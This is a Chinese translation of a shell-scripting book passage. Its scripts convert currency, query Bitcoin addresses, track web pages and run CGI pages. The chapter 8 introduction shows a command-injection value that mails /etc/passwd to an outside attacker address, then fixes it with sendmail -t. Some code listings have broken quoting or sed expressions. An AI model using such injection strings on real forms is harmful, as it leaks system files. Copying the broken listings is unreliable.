对这个脚本最明显的改造就是去掉输出中丑陋的 IMDb 电影 ID 号。隐藏电影 ID 将会很简单（因为所示的 ID 相当不友好且容易输错），并让 shell 脚本输出一个带有唯一索引值的简单菜单，然后可以通过输入索引值来选择特定的电影。

在恰好匹配到一部电影的情况下（尝试 `moviedata monsoon wedding`），如果脚本能够识别出这是唯一的匹配项，抓取该电影的编号并重新调用自身来获取数据，那就太棒了。快来试一试吧！

这个脚本与大多数从第三方网站抓取数值的脚本一样，存在一个问题：如果 IMDb 更改了页面布局，脚本将会失效，而你需要重新构建脚本序列。这是一个潜伏的 Bug，但对于像 IMDb 这样多年未变动网站来说，可能并不危险。

## #60 计算货币价值

在本书的第一版中，货币转换是一项异常困难的任务，需要两个脚本：一个用于从金融网站抓取转换率并将其保存为特殊格式，另一个则使用该数据来执行实际的转换——例如从美元转换为欧元。然而，在随后的几年里，Web 已经变得相当成熟，既然像 Google 这样的网站提供了简单且对脚本友好的计算器，我们就没有理由再去进行大量繁琐的工作。

对于 Listing 7-16 中显示的这个版本的货币转换脚本，我们只需接入 `http://www.google.com/finance/converter` 的货币计算器即可。

### 代码

```bash
#!/bin/bash

# convertcurrency--Given an amount and base currency, converts it
# to the specified target currency using ISO currency identifiers.
# Uses Google’s currency converter for the heavy lifting:
# http://www.google.com/finance/converter

if [ $# -eq 0 ]; then
    echo "Usage: $(basename $0) amount currency to currency"
    echo "Most common currencies are CAD, CNY, EUR, USD, INR, JPY, and MXN"
    echo "Use \"$(basename $0) list\" for a list of supported currencies."
fi

if [ $(uname) = "Darwin" ]; then
    LANG=C # For an issue on OS X with invalid byte sequences and lynx
fi

url="https://www.google.com/finance/converter"
tempfile="/tmp/converter.$$"
lynx=$(which lynx)

# Since this has multiple uses, let’s grab this data before anything else.

currencies=$($lynx -source "$url" | grep "option value=" | \
    cut -d"\"" -f2- | sed 's/>/ ' / | cut -d\( -f1 | sort | uniq)

########## Deal with all non-conversion requests.

if [ $# -ne 4 ]; then
    if [ "$1" = "list" ]; then
        # Produce a listing of all currency symbols known by the converter.
        echo "List of supported currencies:"
        echo "$currencies"
    fi
    exit 0
fi

########## Now let's do a conversion.

if [ $3 != "to" ]; then
    echo "Usage: $(basename $0) value currency to currency"
    echo "(use \"$(basename $0) list\" to get a list of all currency values)"
    exit 0
fi

amount=$1
basecurrency=$(echo $2 | tr '[:lower:]' '[:upper:]')
targetcurrency=$(echo $4 | tr '[:lower:]' '[:upper:]')

# And let's do it--finally!

lynx -source "$url?a=$amount&from=$basecurrency&to=$targetcurrency" | \
    grep 'id=currency_converter_result' | sed 's/<[^>]*>//g'

exit 0
```

Listing 7-16：convertcurrency 脚本

### 工作原理

Google 货币转换器有三个通过 URL 本身传递的参数：金额、原始货币和目标转换货币。你可以在以下将 100 美元转换为墨西哥比索的请求中看到其运作方式：

`https://www.google.com/finance/converter?a=100&from=USD&to=MXN`


因此，在最基本的用例中，脚本要求用户将这三个字段分别作为参数指定，然后将所有内容通过 URL 传递给 Google。

脚本还包含一些使用信息，使其更加易于使用。为了查看这些信息，我们直接跳到演示部分，好吗？

## 运行脚本

如 Listing 7-17 所示，此脚本旨在易于使用，尽管具备至少几个国家货币的基本知识会很有帮助。

## 运行结果

```text
$ convertcurrency
Usage: convert amount currency to currency
Most common currencies are CAD, CNY, EUR, USD, INR, JPY, and MXN
Use "convertcurrency list" for a list of supported currencies.
$ convertcurrency list | head -10
List of supported currencies:

AED United Arab Emirates Dirham
AFN Afghan Afghani
ALL Albanian Lek
AMD Armenian Dram
ANG Netherlands Antillean Guilder
AOA Angolan Kwanza
ARS Argentine Peso
AUD Australian Dollar
AWG Aruban Florin
$ convertcurrency 75 eur to usd
75 EUR = 84.5132 USD
```

Listing 7-17：运行 `convertcurrency` 脚本

## 改进脚本

虽然这个基于 Web 的计算器非常朴素且易于操作，但输出结果还需要一些清理。例如，Listing 7-17 中的输出并不完全合理，因为它在表示美元时保留了小数点后四位，而美分只有两位。正确的输出应该是 84.51，或者进位后为 84.52。这是可以在脚本中修复的。

在修改时，验证货币缩写也将大有裨益。同样地，将这些缩写货币代码转换为正式的货币名称也会是一个很好的功能，这样你就知道 AWG 是的阿尔巴殖属法郎，而 BTC 是比特币。

## #61 获取比特币地址信息

比特币席卷全球，围绕区块链技术（比特币运作的核心）建立起了完整的商业体系。对于任何接触比特币的人来说，获取特定比特币地址的有用信息可能是一件非常麻烦的事情。然而，我们可以使用一个简单的 shell 脚本（如 Listing 7-18 所示）轻松地实现数据收集自动化。

### 代码

```bash
#!/bin/bash
# getbtccaddr--Given a Bitcoin address, reports useful information

if [ $# -ne 1 ]; then
    echo "Usage: $0 <address>"
    exit 1
fi

base_url="https://blockchain.info/q/"

balance=$(curl -s ${base_url}addressbalance/"$1")
recv=$(curl -s ${base_url}getreceivedbyaddress/"$1")
sent=$(curl -s ${base_url}getsentbyaddress/"$1")
first_made=$(curl -s ${base_url}addressfirstseen/"$1")

echo "Details for address $1"
echo -e "\tFirst seen: $($date -d @$first_made)"
echo -e "\tCurrent balance: $balance"
echo -e "\tSatoshis sent: $sent"
echo -e "\tSatoshis recv: $recv"
```

Listing 7-18：`getbtccaddr` 脚本！

### 工作原理

此脚本通过自动化一系列 `curl` 调用，来检索给定比特币地址的几项关键信息。`http://blockchain.info/` 提供的 API 让我们能够非常方便地访问各种比特币和区块链信息。事实上，我们甚至不需要解析 API 返回的响应，因为它只返回单个、简单的数值。在调用并检索到给定地址的余额、已发送和接收的 BTC 数量以及创建时间后，我们将信息打印到屏幕上给用户查看。

### 运行脚本

该脚本仅接受一个参数，即我们想要查询信息的比特币地址。不过，我们需要提到的是，如果传入的字符串不是真实的比特币地址，它将简单地为发送、接收和当前余额值打印全 0，并且创建日期将显示为 1969 年。任何非零值均以一种名为“聪”（satoshis）的单位计算，这是比特币的最小面值（类似于分，但有更多位小数）。

### 运行结果

运行 `getbtccaddr` shell 脚本很简单，因为它只需要一个参数（要请求数据的比特币地址），如 Listing 7-19 所示。

```text
$ getbtccaddr 1A1zP1eP5QGefl2DMPtFTL5SLmv7DivFna
Details for address 1A1zP1eP5QGefl2DMPtFTL5SLmv7DivFna
    First seen: Sat Jan 3 12:15:05 CST 2009
    Current balance: 6554034549
    Satoshis sent: 0
    Satoshis recv: 6554034549

$ getbtcaddr 1fzwoHtiXb41FwedPr49iywjZn2nnekhoj
Details for address 1fzwoHtiXb41FwedPr49iywjZn2nnekhoj
First seen: Sun Mar 11 11:11:41 CDT 2012
Current balance: 20000000
Satoshi sent: 716369585974
Satoshi recv: 716371585974
```

Listing 7-19：运行 `getbtcaddr` 脚本

### 改进脚本

默认打印到屏幕上的数字非常大，大多数人很难直观理解。可以使用 `btc` 脚本（第 34 页的脚本 #9）以更合理的单位（如完整的比特币）进行报告。在脚本中添加一个缩放（scale）参数，将是让用户获得更具可读性打印结果的简便方法。

## #62 追踪网页变化

有时，伟大的灵感来自于观察现有的业务并对自己说：“这看起来并不太难。” 追踪网站变化的任务是一种出人意料地简单的方式，可以用来收集此类灵感素材。Listing 7-20 中的脚本 `checktrack` 实现了该任务的自动化。这个脚本有一个有趣的细微之处：当它检测到站点发生变化时，它会将新的网页通过电子邮件发送给用户，而不仅仅是在命令行上报告信息。

### 代码

```bash
#!/bin/bash

# checktrack--Tracks a given URL and, if it’s changed since the last visit,
# emails the new page to the specified address

sendmail=$(which sendmail)
sitearchive="/tmp/changetrack"
tmpchanges="${sitearchive}/changes.$$" # Temp file
fromaddr="webscraper@intuitive.com"
dirperm=755 # read+write+execute for dir owner
fileperm=644 # read+write for owner, read only for others

trap "(sh -c 'rm $tmpchanges') 0 1 15 # Remove temp file on exit

if [ $# -ne 2 ] ; then
    echo "Usage: $(basename $0) url email" >&2
    echo " tip: to have changes displayed on screen, use email addr '-' " >&2
    exit 1
fi

if [ ! -d $sitearchive ] ; then
    if ! mkdir $sitearchive ; then
        echo "$(basename $0) failed: couldn't create $sitearchive." >&2
        exit 1
    fi

    chmod $dirperm $sitearchive
fi

if [ " $(echo $1 | cut -c1-5) " != "http:" ] ; then
    echo "Please use fully qualified URLs (e.g. start with 'http://')" >&2
    exit 1
fi

fname=$(echo $1 | sed 's/http:\/\/g' | tr '?&' '..')
baseurl=$(echo $1 | cut -d/ -f1-3)/

# 获取网页的副本并将其放入存档文件中。请注意，
# 我们可以仅通过查看内容（即使用 -dump 而非
# -source）来跟踪更改，因此可以跳过任何 HTML 解析……

lynx -dump "$1" | uniq > $sitearchive/${fname}.new

if [ -f "$sitearchive/$fname" ] ; then
    # 我们之前见过这个站点，因此使用 diff 对两者进行比较。
    diff $sitearchive/$fname $sitearchive/${fname}.new > $tmpchanges

    if [ -s $tmpchanges ] ; then
        echo "Status: Site $1 has changed since our last check."
    else
        echo "Status: No changes for site $1 since last check."
        rm -f $sitearchive/${fname}.new # 没有新内容……
        exit 0 # 没有更改——我们退出。
    fi
else
    echo "Status: First visit to $1. Copy archived for future analysis."
    mv $sitearchive/${fname}.new $sitearchive/$fname
    chmod $fileperm $sitearchive/$fname
    exit 0
fi

# 如果程序运行到这里，说明站点已更改，我们需要将
# .new 文件的内容发送给用户，并用 .new 文件替换
# 原始文件，以便下次执行脚本时使用。

if [ " $2" != " - " ] ; then
    (
        echo "Content-type: text/html"
        echo "From: $fromaddr (Web Site Change Tracker)"
        echo "Subject: Web Site $1 Has Changed"
        echo "To: $2"
        echo " "

        lynx -s -dump $1 | \
            sed -e "s|src=\|SRC=\$baseurl|gi" \
                -e "s|href=\|HREF=\$baseurl|gi" \
                -e "s|\$baseurl\/http:|g"
    ) | $sendmail -t
else
    # 仅仅在屏幕上显示差异很丑陋。解决方案？
    diff $sitearchive/${fname} $sitearchive/${fname}.new
fi

# 更新保存的网站快照。

mv $sitearchive/${fname}.new $sitearchive/${fname}
chmod 755 $sitearchive/${fname}
exit 0
```

代码清单 7-20：`changetrack` 脚本

### 工作原理

给定一个 URL 和目标电子邮件地址，该脚本会抓取网页内容，并将其与上次检查时该站点的内容进行比较。如果站点发生了更改，新网页将通过电子邮件发送给指定的接收者，并进行一些简单的重写，以尽量保持图形和 `href` 标签正常工作。从 ❷ 开始的这些 HTML 重写值得研究。

调用 `lynx` 来检索指定网页的源文件 ❶，然后执行三种不同的转换。首先，`SRC="` 被重写为 `SRC="baseurl/` ❶，以确保任何形式为 `SRC="logo.gif"` 的相对路径都被重写为带有域名且能正常工作的完整路径名。如果站点的域名是 `http://www.intuitive.com/`，重写后的 HTML 将是 `SRC="http://www.intuitive.com/logo.gif"`。同样，`href` 属性也会被重写 ❷。然后，为了确保我们没有破坏任何内容，第三次转换会在错误添加了 `baseurl` 的情况下将其剔除 ❸。例如，`HREF="http://www.intuitive.com/http://www.somewhereelse.com/link"` 显然是损坏的，必须修复链接才能工作。

还要注意，接收者地址是在 `echo` 语句 ❹（`echo "To: $2"`）中指定的，而不是作为 `sendmail` 的参数。这是一个简单的安全技巧：通过在 `sendmail` 输入流中添加地址（`sendmail` 因为有 `-t` 标志而知道解析接收者），就不用担心用户玩弄类似 `"joe;cat /etc/passwd|mail larry"` 的地址花样。无论何时在 shell 脚本中调用 `sendmail`，这都是一个很好的技术。

### 运行脚本

该脚本需要两个参数：被跟踪站点的 URL（为了正常工作，您需要使用以 `http://` 开的完整限定 URL）以及应接收更新网页的人员（或以逗号分隔的人员组）的电子邮件地址。或者，如果您愿意，只需使用 `-`（连字符）作为电子邮件地址，`diff` 的输出将改为显示在屏幕上。

### 结果

脚本第一次看到网页时，页面会自动发送给指定用户，如代码清单 7-21 所示。

```text
$ changetrack http://www.intuitive.com/ taylor@intuitive.com
Status: first visit to http://www.intuitive.com/. Copy archived for future analysis.
```

代码清单 7-21：首次运行 `changetrack` 脚本

随后对 `http://www.intuitive.com/` 的所有检查只有在页面自上次执行脚本以来发生更改时，才会产生该站点的电子邮件副本。这种更改可能简单到修复一个拼写错误，也可能复杂到完全重新设计。虽然该脚本可用于跟踪任何网站，但对于不经常更改的站点效果最好：如果站点是 BBC 新闻主页，检查更改将浪费 CPU 周期，因为该站点在不断更新。

如果脚本第二次被调用时站点没有更改，则脚本没有输出，也不会向指定接收者发送电子邮件：

```text
$ changetrack http://www.intuitive.com/ taylor@intuitive.com
$
```

### 改进脚本

当前脚本一个明显的缺陷是它被硬编码为寻找 `http://` 链接，这意味着它会拒绝任何通过 SSL 传输的 HTTPS 网页。要更新脚本以同时支持两者，需要一些更高级的正则表达式，但这完全可行！

另一个使脚本更有用的更改是增加一个粒度选项，允许用户指定如果只有一行发生更改，则脚本不应认为网站已更新。您可以通过将 `diff` 的输出管道传输到 `wc -l` 来计算更改的输出行数来实现这一点。（请记住，`diff` 通常为每行更改产生三行输出。）

当此脚本由每日或每周一次的 `cron` 任务调用时会更加有用。我们有类似的脚本每晚运行，并向我们发送各种我们想要跟踪的网站的更新页面。

一个特别有趣的可能性是修改此脚本，使其根据包含 URL 和电子邮件地址的数据文件工作，而不是将其作为输入参数。将该修改版本放入 `cron` 任务中，为该实用程序编写一个基于 Web 的前端（类似于第 8 章中的 shell 脚本），您就复制了一个某些公司向用户收费的功能。没开玩笑。

# 8 WEBMASTER HACKS（网站管理员黑客技巧）

除了为构建处理各种网站的精巧命令行工具提供绝佳环境外，shell 脚本还可以改变您自己网站的运行方式。您可以使用 shell 脚本编写简单的调试工具，按需创建网页，甚至构建一个能自动纳入上传到服务器的新图像的照片专辑浏览器。

本章中的脚本全部是*通用网关接口 (CGI)*脚本，用于生成动态网页。在编写 CGI 脚本时，您应始终意识到潜在的安全风险。最能让 Web 开发人员措手不及的常见漏洞之一就是攻击者通过有漏洞的 CGI 或其他 Web 语言脚本访问并利用命令行。

请看代码清单 8-1 中一个看似无害的示例：一个收集用户电子邮件地址的 Web 表单。处理该表单的脚本将用户信息存储在本地数据库中并发送确认邮件。

```bash
(
    echo "Subject: Thanks for your signup"
    echo "To: $email ($name)"
    echo ""
    echo "Thanks for signing up. You’ll hear from us shortly."
    echo "-- Dave and Brandon"
) | sendmail $email
```

代码清单 8-1：向 Web 表单用户的地址发送电子邮件

看起来很纯洁，不是吗？现在想象一下，如果用户输入的不是像 `taylor@intuitive.com` 这样的普通电子邮件地址，而是像这样的内容会发生什么：


```bash
`sendmail d00d37@das-hak.de < /etc/passwd; echo taylor@intuitive.com`
```

您能看出其中潜伏的危险吗？这不再仅仅是向该地址发送短邮件，而是将您的`/etc/passwd`文件副本发送给`@das-hak.de`的一名不法分子，也许会被用来作为对您系统安全进行判定攻击的基础。

因此，许多 CGI 脚本是在更注重安全的环境中编写的——特别是，在 shebang（shell 脚本顶部的`#!`）中启用了`-w`标志的 Perl，这样如果使用了未经清洗或检查的外部源数据，脚本就会失败。

但 shell 脚本缺乏安全特性并不妨碍它在 Web 安全领域成为平等的一员。这只是意味着您需要意识到问题可能在何处潜入并将其消除。例如，代码清单 8-1 中的一个小改动就可以防止潜在的捣蛋鬼提供不良的外部数据，如代码清单 8-2 所示。

```bash
( echo "Subject: Thanks for your signup"
  echo "To: $email ($name)"
  echo ""
  echo "Thanks for signing up. You’ll hear from us shortly."
  echo "-- Dave and Brandon"
) | sendmail -t
```

代码清单 8-2：使用`-t`发送电子邮件

`sendmail`的`-t`标志告诉程序扫描消息本身以寻找有效的目标电子邮件地址。反引号中的内容永远不会被执行……

命令行的一部分，因为它在 sendmail 队列系统中被解释为一个无效的电子邮件地址。它会被安全地保存为用户主目录下名为`dead.message`的文件，并尽职地记录在系统错误文件中。

另一种安全措施是对从 Web 浏览器发送到服务器的信息进行编码。例如，编码后的反引号会被实际发送到服务器（并传递给 CGI 脚本）为`%60`，这无疑可以由 shell 脚本安全处理而没有危险。

本章中所有 CGI 脚本的一个共同特征是，它们对编码字符串的解码非常、非常有限：空格在传输时被编码为`+`以进行传输，因此将它们还原为空格是安全的。电子邮件地址中的`@`字符被发送为`%40`，因此也可以安全地转换回来。除此之外，对清洗后的字符串扫描是否存在`%`符号是无害的，如果遇到则生成错误。

最终，复杂的网站将使用比 shell 更强大的工具，但与本书中的许多解决方案一样，一个 20 到 30 行的 shell 脚本通常足以验证一个想法、证明一个概念，或者以快速、可移植且相当高效的方式解决一个问题。

## 运行本章中的脚本

要运行本章中的 CGI shell 脚本，我们需要做的不仅仅是给脚本起个适当的名字并保存它。我们还必须将脚本放置在正确的位置，具体由运行的 Web 服务器配置决定。为此，我们可以使用系统的包管理器安装 Apache Web 服务器，并将其设置为运行我们的新 CGI 脚本。以下是使用`apt`包管理器的操作方法：

```bash
$ sudo apt-get install apache2
$ sudo a2enmod cgi
$ sudo service apache2 restart
```

通过`yum`包管理器安装应该非常相似。

```bash
# yum install httpd
# a2enmod cgi
# service httpd restart
```

一旦安装并配置完成，你应该能够在所选操作系统的默认`cgi-bin`目录（Ubuntu 或 Debian 为`/usr/lib/cgi-bin/`，CentOS 为`/var/www/cgi-bin/`）中开始开发我们的脚本，然后在 Web 浏览器中通过`http://<ip>/cgi-bin/script.cgi`查看它们。如果脚本在浏览器中仍然显示为纯文本，请确保使用命令`chmod +x script.cgi`使其可执行。

## 63 查看 CGI 环境

在我们开发本章的一些脚本时，Apple 发布了最新版本的 Safari Web 浏览器。我们立即产生了一个疑问：“Safari 在`HTTP_USER_AGENT`字符串中是如何标识自己的？”对于使用 shell 编写的 CGI 脚本来说，寻找答案很简单，如清单 8-3 所示。

### 代码

```bash
#!/bin/bash

# showCGIenv--显示传递给本系统任何
# CGI 脚本的 CGI 运行时环境

echo "Content-type: text/html"
echo ""

# 现在是真实信息...

echo "<html><body bgcolor=\"white\"><h2>CGI Runtime Environment</h2>"
echo "<pre>"
 env || printenv
echo "</pre>"
echo "<h3>Input stream is:</h3>"
echo "<pre>"
cat -
echo "(end of input stream)</pre></body></html>"

exit 0
```

清单 8-3：`showCGIenv`脚本

### 工作原理

当 Web 客户端向 Web 服务器发送查询时，查询序列包含许多环境变量，Web 服务器（在本例中为 Apache）会将这些变量传递给指定的脚本或程序（即 CGI）。本脚本通过使用 shell 的`env`命令（如果`env`调用失败，则使用`printenv`，这就是`||`符号的目的）来显示这些数据——脚本的其余部分是必要的包装信息，以便将结果通过 Web 服务器反馈给远程浏览器。

### 运行脚本

要运行该代码，你需要将可执行脚本放置在 Web 服务器上。（更多详情请参阅第 201 页的“运行本章中的脚本”。）然后只需在 Web 浏览器中请求保存的`.cgi`文件。结果如图 8-1 所示。

**CGI Runtime Environment**

```text
HTTP_USER_AGENT=Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36.4 (KHTML, like Gecko) Version/7.0.4 Safari/537.36.4
HTTP_X_FORWARDED_FOR=75.10.22.156
PP_CUSTOM_USER_ID=guest
PP_CUSTOM_PHP_INI=/var/www/vhosts/system/intuitive.com/etc/php.ini
SERVER_PROTOCOL=HTTP/1.1
SERVER_NAME=hostintuitive.com
SERVER_SOFTWARE=Apache
DOCUMENT_ROOT=/var/www/vhosts/system/intuitive.com/httpdocs
DOCUMENT_ROOT_ZON=/var/www/vhosts/system/intuitive.com/httpdocs/cgi-bin/test/showenv.cgi
SCRIPT_NAME=/cgi-bin/test/showenv.cgi
REQUEST_URI=/cgi-bin/test/showenv.cgi
SCRIPT_FILENAME=/var/www/vhosts/system/intuitive.com/httpdocs/cgi-bin/test/showenv.cgi
QUERY_STRING=
SCRIPT_URI=/cgi-bin/test/showenv.cgi
HTTP_HOST=intuitive.com
REMOTE_PORT=49676
REMOTE_ADDR=75.10.22.156
REMOTE_USER=
PATH=/usr/local/bin:/usr/bin/bin
SCRIPT_URI=/cgi-bin/test/showenv.cgi
PROX_USER=/var/www/vhosts/system/intuitive.com/httpdocs/cgi-bin/test
SERVER_ADMIN=http@intuitive.com
HTTP_ACCEPT_LANGUAGE=en
HTTP_DET=1
HTTP_ACCEPT_TEXTS=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
REMOTE_ADDR=75.10.22.156
SERVER_PORT=80
SERVER_SOFTWARE=Apache
QUERY_STRING=
SERVER_ADDR=168.171.172.106
GATEWAY_INTERFACE=CGI/1.2
SERVER_PROTOCOL=HTTP/1.1
HTTP_ACCEPT_ENCODING=gzip, deflate
REQUEST_METHOD=GET
HTTP_COOKIE=os_guest-id=84413315-13388884207332; _utma=2237302473.15047687.1338884206.1401809476.140183079.13; _utmb=2237302473.133888488
_/usr/bin/env
```

Input stream is:

```text
(end of input stream)
```

图 8-1：由 shell 脚本生成的 CGI 运行时环境

### 结果

了解 Safari 如何通过`HTTP_USER_AGENT`变量标识自己是非常有用的，如清单 8-4 所示。

```text
HTTP_USER_AGENT=Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_1)
AppleWebKit/601.2.7 (KHTML, like Gecko) Version/9.0.1 Safari/601.2.7
```

清单 8-4：CGI 脚本中的`HTTP_USER_AGENT`环境变量

因此，Safari 601.2.7 版本属于 Mozilla 5.0 浏览器类，运行在 OS X 10.11.1 的 Intel 平台上，并使用 XHTML 渲染引擎。所有这些信息都浓缩在一个变量中！

## 64 记录 Web 事件

基于 shell 的 CGI 脚本的一个酷用处是使用包装器（wrapper）来记录事件。假设你想在网页上放置一个 DuckDuckGo 搜索框。你不想将查询直接发送给 DuckDuckGo，而是想先记录它们，看看访客搜索的内容是否与你网站的内容相关。

首先，需要一点 HTML 和 CGI。网页上的输入框使用 HTML`<form>`标签创建，当点击表单按钮提交时，它会将用户输入发送到表单`action`属性值中指定的远程网页。任何网页上的 DuckDuckGo 查询框都可以简化为如下内容：

```html
<form method="get" action="">
Search DuckDuckGo:
<input type="text" name="q">
<input type="submit" value="search">
</form>
```

我们不想将搜索模式直接交给 DuckDuckGo，而是想将其传递给我们自己服务器上的一个脚本，该脚本将记录该模式，然后将查询重定向到 DuckDuckGo 服务器。因此，表单在一个小地方发生了变化：`action`字段变成了一个本地脚本，而不是直接调用 DuckDuckGo：

```html
<!-- 如果脚本放在 /cgi-bin/ 或其他位置，请调整 action 值 -->
<form method="get" action="log-duckduckgo-search.cgi">
```

`log-duckduckgo-search` CGI 脚本非常简单，如清单 8-5 所示。

### 代码

```bash
#!/bin/bash

# log-duckduckgo-search--给定一个搜索请求，记录该模式，然后
# 将整个序列传递给真正的 DuckDuckGo 搜索系统

# 确保列为 logfile 的目录和文件对
# 运行 Web 服务器的用户可写。
logfile="/var/www/wicked/scripts/searchlog.txt"

if [ ! -f $logfile ]; then
    touch $logfile
    chmod a+rw $logfile
fi

if [ -w $logfile ]; then
    echo "($date): $QUERY_STRING" | sed 's/+/ /g;s/%20/ /g' >> $logfile
fi

echo "location: https://duckduckgo.com/html/?$QUERY_STRING"
echo ""

exit 0
```

清单 8-5：`log-duckduckgo-search`脚本

### 工作原理

该脚本最显著的元素在于 Web 服务器与 Web 客户端的通信方式。在搜索框中输入的信息将作为变量`QUERY_STRING`发送到服务器，其编码方式是将空格替换为`+`号，将其他非字母数字字符替换为相应的字符序列。随后，在记录搜索模式时，所有`+`号都会被简单安全地还原为空格。除此之外，搜索模式不会被解码，以防止用户尝试任何狡猾的黑客攻击。（详情请参阅本章引言。）

记录完成后，Web 浏览器将通过`Location:`标头值被重定向到实际的 DuckDuckGo 搜索页面。请注意，无论搜索模式多么简单或复杂，只需简单地附加`?$QUERY_STRING`就足以将搜索模式转发到其最终目的地。

此脚本生成的日志文件在每个查询字符串前都会加上当前的日期和时间，从而构建一个数据文件，该文件不仅能显示热门搜索，还可以根据一天中的时间、一周中的某天、月份等进行分析。对于一个繁忙的站点，这个脚本可以揭示大量信息！

### 运行脚本

要真正使用此脚本，你需要创建 HTML 表单，并且需要让脚本具有可执行权限并将其放置在服务器上。（详情请参阅第 201 页的“运行本章中的脚本”。）不过，我们可以使用`curl`来测试该脚本。要测试脚本，请使用`curl`发起一个带有包含搜索查询的`q`参数的 HTTP 请求：

```text
$ curl "10.37.129.5/cgi-bin/log-duckduckgo-search.cgi?q=metasploit"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://duckduckgo.com/html/?q=metasploit">here</a>.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 10.37.129.5 Port 80</address>
</body></html>
$
```

然后，通过将搜索日志的内容打印到控制台屏幕上，验证搜索是否已被记录：

```text
$ cat searchlog.txt
Thu Mar 9 17:20:56 CST 2017: metasploit
$
```

### 结果

在 Web 浏览器中打开该脚本，结果正如预期地来自 DuckDuckGo，如图 8-2 所示。


图 8-2：*出现了 DuckDuckGo 的搜索结果，但搜索已被记录！*

在一个繁忙的网站上，你无疑会发现，使用`tail -f searchlog.txt`命令监控搜索内容是非常有启发性的，因为你可以了解到人们在网上寻找什么。

### 改进脚本

如果网站的每个页面都使用了搜索框，那么知道用户在执行搜索时处于哪个页面将会很有用。这可以让你深入了解特定页面的解释是否足够清晰。例如，用户是否总是从某个特定页面搜索关于某个主题的更多详细解释？在脚本中记录关于用户从哪个页面发起搜索的额外信息（例如`Referer` HTTP 标头）将是一个极好的补充。

## 65 用 Go 构建网页

许多网站拥有每天都会更新的图形和其他元素。Bill Holbrook 的 *Kevin & Kell* 等网络漫画就是个很好的例子。在他的网站上，首页总是展示最新的漫画条，而且事实证明，该网站为单个漫画采用的图像命名约定很容易被反向工程，从而允许你在自己的页面中包含该漫画，如代码清单 8-6 所示。

> **警告** 律师的忠告：在从另一个网站抓取内容用于自己的网站时，有很多版权问题需要考虑。对于本示例，我们得到了 Bill Holbrook 的明确许可，将其漫画条包含在本书中。我们建议你在让自己陷入被律师包围的深坑之前，先获得在自己的网站上复制任何受版权保护材料的许可。

### 代码


```bash
#!/bin/bash

# kevin-and-kell--动态构建一个网页，以显示 Bill Holbrook 创作的
#   "Kevin and Kell" 漫画的最新条目。
#   <经漫画家许可引用漫画条>

month=$(date +%m)
day=$(date +%d)
year=$(date +%Y)

echo "Content-type: text/html"
echo ""

echo "<html><body bgcolor=white><center>"
echo "<table border=\"0\" cellpadding=\"2\" cellspacing=\"1\">"
echo "<tr bgcolor=\"#000099\">"
echo "<th font-color=white>Bill Holbrook's Kevin &amp; Kell</strong></th></tr>"
echo "<tr><td>"

# Typical URL: http://www.kevinandkell.com/2016/strips/kk20160804.jpg

echo "-n \" src=\"http://www.kevinandkell.com/$year/"
echo "strips/kk$year{$month}$day.jpg\">"
echo "</td></tr><tr><td align=\"center\">"
echo "&copy; Bill Holbrook. Please see "
echo " <a href=\"http://www.kevinandkell.com/\">kevinandkell.com</a>"
echo " for more strips, books, etc."
echo "</td></tr></table></center></body></html>"

exit 0
```

代码清单 8-6：`kevin-and-kell` 脚本

### 工作原理

快速查看 *Kevin & Kell* 首页的源代码可以发现，给定漫画的 URL 是由当前年份、月份和日期构建的，如下所示：

`http://www.kevinandkell.com/2016/strips/kk20160804.jpg`

为了动态构建一个包含该漫画条的页面，脚本需要确定当前年份（作为两位数）、月份和日期（如果需要，均带有前导零）。脚本的其余部分只是 HTML 外壳，用于使页面美观。事实上，考虑到最终实现的功能，这是一个极其简单的脚本。

### 运行脚本

与本章中的其他 CGI 脚本一样，此脚本必须放置在适当的目录中，以便可以通过 Web 访问，并具有适当的文件权限。然后只需在浏览器中调用正确的 URL 即可。

### 结果

该网页每天都会自动更改。对于 2016 年 8 月 4 日的漫画条，生成的页面如图 8-3 所示。


图 8-3：动态构建的 Kevin & Kell 网页

### 改进脚本

如果你有灵感，这个概念几乎可以应用于 Web 上的任何内容。你可以抓取来自 CNN 或 *南华早报* 的头条新闻，或者从一个杂乱的网站上获取随机广告。同样，如果你打算将这些内容作为你网站不可或缺的一部分，请确保它们属于公共领域，或者你已获得许可。

## #66 将网页转换为电子邮件

通过将反向工程文件命名约定的方法与第 194 页脚本 #62 中所示的网站跟踪实用程序相结合，你可以给自己发送一封电子邮件，其内容和文件名都会随之更新。此脚本不需要使用 Web 服务器即可发挥作用，并且可以像本书中目前编写的所有其他脚本一样运行。但需注意：Gmail 和其他电子邮件提供商可能会过滤从本地 Sendmail 实用程序发送的电子邮件。如果你没有收到以下脚本发送的电子邮件，请尝试使用 Mailinator (`http://mailinator.com/`) 等服务进行测试。

### 代码

作为示例，我们将使用 *The Straight Dope*，这是 Cecil Adams 为 *Chicago Reader* 撰写的一篇诙谐专栏。如代码清单 8-7 所示，将新的 *Straight Dope* 专栏自动发送到指定地址是非常简单的。

```bash
#!/bin/bash

# getdope--抓取 "The Straight Dope" 的最新专栏。
# 如果愿意，可以在 cron 中设置每天运行。

now=$(date "+%Y%m%d")
start="http://www.straightdope.com/"
to="testing@yourdomain.com" # 根据需要修改此处。

# First, get the URL of the current column.

URL=$(curl -s "$start" | \
grep -A1 'teaser' | sed -n '2p' | \
cut -d"\"" -f2 | cut -d"\"" -f1)

# Now, armed with that data, produce the email.

( cat << EOF
Subject: The Straight Dope for $(date "+%A, %d %B, %Y")
From: Cecil Adams <dont@reply.com>
Content-type: text/html
To: $to

EOF
curl "$URL"
) | /usr/sbin/sendmail -t

exit 0
```

代码清单 8-7：`getdope` 脚本

### 工作原理

包含最新专栏的页面有一个你需要从主页中提取的 URL，但通过检查源代码可以发现，每个专栏在源码中都被标识为 `class="teaser"`，且最新的专栏总是出现在页面的首位。这意味着从 ❶ 开始的简单命令序列应该就能提取出最新专栏的 URL。

`curl` 命令获取主页的源代码，`grep` 命令输出每一行匹配 "teaser" 的行及其紧随其后的行，而 `sed` 则方便地抓取结果输出的第二行，从而让我们能够获取最新的文章。

### 运行脚本

若要仅提取 URL，只需省略第一个双引号之前的所有内容以及结果中第一个引号之后的所有内容。在命令行上分步测试它，以查看每一步实现了什么功能。

### 结果

虽然简洁，但这个脚本展示了对 Web 的高级利用，即从一个网页提取信息并将其作为后续调用基础。

